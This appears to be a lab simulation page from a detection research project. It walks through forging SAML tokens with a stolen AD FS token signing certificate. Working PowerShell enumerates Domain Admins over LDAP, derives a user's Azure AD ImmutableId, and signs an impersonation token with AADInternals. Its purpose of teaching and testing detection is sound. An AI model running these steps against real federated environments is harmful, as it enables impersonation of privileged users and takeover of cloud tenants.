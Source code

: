 # Forge SAML Tokens with Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to [export the AD FS token signing certificate](exportADFSTokenSigningCertificate.md) from an AD FS server, it is just a matter of time until it is used to sign new SAML tokens and impersonate users in a federated environment. 

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Output](#output)
* [Variations](#variations)

## Preconditions

## Preconditions
* Integrity level: medium
* Authorization:
    * Resource: Domain Controller 
    * Identity:
        * Domain Users
* Domain Controller
    * Services:
      * Active directory domain services
    * Network:
      * Port: 389
* Input:
  * AD FS Token Signing Certificate

## Simulation Steps
### Enumerate Privileged Accounts via Lightweight Directory Access Protocol (LDAP)

Start by identifying privileged accounts that could also have privileged access to resources in the cloud. Usually, environments add their domain admin accounts to the Azure AD built-in  Global Administrator role. Therefore, you can start by enumerating the members of the `Domain Admins` group.

1.  Connect to a domain joined endpoint via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md).
2.  Open PowerShell and run the following commands:

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_01_get_domain_admins.png)

### Forge SAML Token

A threat actor would most likely do this outside of the organization. Therefore, there are no detections for this step.

#### Convert User AD Object GUID to its Azure AD Immutable ID representation

1.  Once we identify the privileged user we want to impersonate, we need to obtain the `immutable ID` of the account AD object GUID. The `ImmutableId` is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$Results[1].Samaccountname
$Results[1].ObjectGuid
$ObjectGUID = $Results[1].ObjectGuid
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
$ImmutableId
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_02_get_immutable_id.png)

#### Install AADInternals

2.  On the same PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals -Force 
Import-Module –Name AADInternals
```

#### Sign a New SAML Token

3. Use the [New-AADIntSAMLToken](https://github.com/Gerenios/AADInternals/blob/master/FederatedIdentityTools.ps1#L6) function with the following information to sign a new SAML token:
  * The `ImmutableID` we got in the first section.
  * The path to the token signing certificate file.
  * The AD FS token issuer url.

```PowerShell 
$Cert = 'C:\ProgramData\ADFSSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
$SamlToken
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_04_sign_saml_token.png)

## Output

* SAML Token

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
